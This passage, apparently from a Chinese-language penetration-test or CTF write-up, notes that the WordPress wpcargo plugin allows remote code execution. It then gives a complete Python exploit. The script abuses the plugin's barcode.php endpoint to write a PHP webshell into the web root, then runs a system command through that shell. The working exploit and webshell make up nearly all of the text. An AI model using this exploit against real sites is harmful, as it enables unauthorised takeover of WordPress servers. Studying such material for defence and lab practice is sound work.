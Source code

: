 ![QQ_1724588828091](images/8.png)

发现了wpcargo插件，可以用这个插件rce

```
import sys
import binascii
import requests

# This is a magic string that when treated as pixels and compressed using the png
# algorithm, will cause <?=$_GET[1]($_POST[2]);?> to be written to the png file
payload = '2f49cf97546f2c24152b216712546f112e29152b1967226b6f5f50'

def encode_character_code(c: int):
    return '{:08b}'.format(c).replace('0', 'x')

text = ''.join([encode_character_code(c) for c in binascii.unhexlify(payload)])[1:]

destination_url = 'http://172.22.2.18/'
cmd = 'id'

# With 1/11 scale, '1's will be encoded as single white pixels, 'x's as single black pixels.
requests.get(
    f"{destination_url}wp-content/plugins/wpcargo/includes/barcode.php?text={text}&sizefactor=.090909090909&size=1&filepath=/var/www/html/webshell.php"
)

# We have uploaded a webshell - now let's use it to execute a command.
print(requests.post(
    f"{destination_url}webshell.php?1=system", data={"2": cmd}
).content.decode('ascii', 'ignore'))
```